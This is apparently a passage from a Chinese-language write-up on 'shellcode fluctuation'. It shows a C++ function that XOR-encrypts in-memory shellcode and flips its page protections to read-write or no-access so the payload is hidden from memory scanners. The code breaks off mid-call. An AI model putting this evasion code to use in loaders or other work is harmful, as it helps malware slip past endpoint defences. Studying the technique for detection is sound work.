   

```plain
加密和解密shellcode：
```

```plain
void shellcodeEncryptDecrypt(LPVOID callerAddress)
{
    if ((g_fluctuate != NoFluctuation) && g_fluctuationData.shellcodeAddr != nullptr && g_fluctuationData.shellcodeSize > 0)
    {
        if (!isShellcodeThread(callerAddress))
            return;

        DWORD oldProt = 0;

        if (!g_fluctuationData.currentlyEncrypted
            || (g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA))
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_READWRITE,
                &g_fluctuationData.protect
            );

            log("[>] Flipped to RW.");
        }

        log((g_fluctuationData.currentlyEncrypted) ? "[<] Decoding..." : "[>] Encoding...");

        xor32(
            reinterpret_cast<uint8_t*>(g_fluctuationData.shellcodeAddr),
            g_fluctuationData.shellcodeSize,
            g_fluctuationData.encodeKey
        );

        if (!g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA)
        {
            //
            // Here we're utilising ORCA666's idea to mark the shellcode as PAGE_NOACCESS instead of PAGE_READWRITE
            // and our previously set up vectored exception handler should catch invalid memory access, flip back memory
            // protections and resume the execution.
            //
            // Be sure to check out ORCA666's original implementation here:
            //      https://github.com/ORCA666/0x41/blob/main/0x41/HookingLoader.hpp#L285
            //

            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_NOACCESS,
                &oldProt
            );

            log("[>] Flipped to No Access.\n");
        }
        else if (g_fluctuationData.currentlyEncrypted)
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
```